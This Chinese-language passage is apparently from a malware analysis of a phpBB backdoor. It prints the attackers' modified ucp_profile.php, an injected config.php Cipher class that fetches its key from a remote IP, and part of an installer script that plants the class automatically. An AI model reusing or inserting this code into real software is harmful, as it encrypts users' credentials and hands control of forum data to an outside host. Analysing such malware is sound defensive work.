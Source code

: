 ## 4\. ucp_profile.php

* * *

main 函数。。。

```
if (sizeof($sql_ary)) 
{ 
 $sql_ary['user_email'] = $cipher->encrypt($sql_ary['user_email']); 
 $sql_ary['user_password'] = $cipher->encrypt($sql_ary['user_password']);
 $sql = 'UPDATE ' . USERS_TABLE . ' 
  SET ' . $db->sql_build_array('UPDATE', $sql_ary) . ' 
  WHERE user_id = ' . $user->data['user_id']; 
 $db->sql_query($sql);

```

## 5\. config.php

* * *

```
class Cipher { 
 private $securekey, $iv; 
 function __construct($textkey) { 
  $this->securekey = hash('sha256',$textkey,TRUE); 
  $this->iv = mcrypt_create_iv(32); 
 } 
 function encrypt($input) { 
  return base64_encode(mcrypt_encrypt(MCRYPT_RIJNDAEL_256, 
       $this->securekey, $input, MCRYPT_MODE_ECB, $this->iv)); 
 } 
 function decrypt($input) { 
  return trim(mcrypt_decrypt(MCRYPT_RIJNDAEL_256, 
       $this->securekey, base64_decode($input), MCRYPT_MODE_ECB, $this->iv)); 
 } 
} 
$key=file_get_contents('https://103.13.120.108/sfdoif89d7sf8d979dfgf/ 
sdfds90f8d9s0f8d0f89.txt'); 
$cipher=new Cipher($key);

```

一个值得注意的是，我们发现黑客留下的两个可以自动化安装后门的脚本，可以对任意 phpbb 论坛植入后门程序，只需要几下点击，第一个修改 “config.php” 添加 cipher 类在脚本中，其中可以看到 储存在远程服务器上的 密钥。

安装文件

```
<?php 
$file = '../config.php'; 
$txt = "\n".'class Cipher { 
 private $securekey, $iv; 
 function __construct($textkey) { 
  $this->securekey = hash(\'sha256\',$textkey,TRUE); 
  $this->iv = mcrypt_create_iv(32); 
 } 
 function encrypt($input) { 
  return base64_encode(mcrypt_encrypt(MCRYPT_RIJNDAEL_256, 
     $this->securekey, $input, MCRYPT_MODE_ECB, $this->iv)); 
  } 
 function decrypt($input) { 
  return trim(mcrypt_decrypt(MCRYPT_RIJNDAEL_256, 
     $this->securekey, base64_decode($input), MCRYPT_MODE_ECB, $this->iv)); 
 } 
```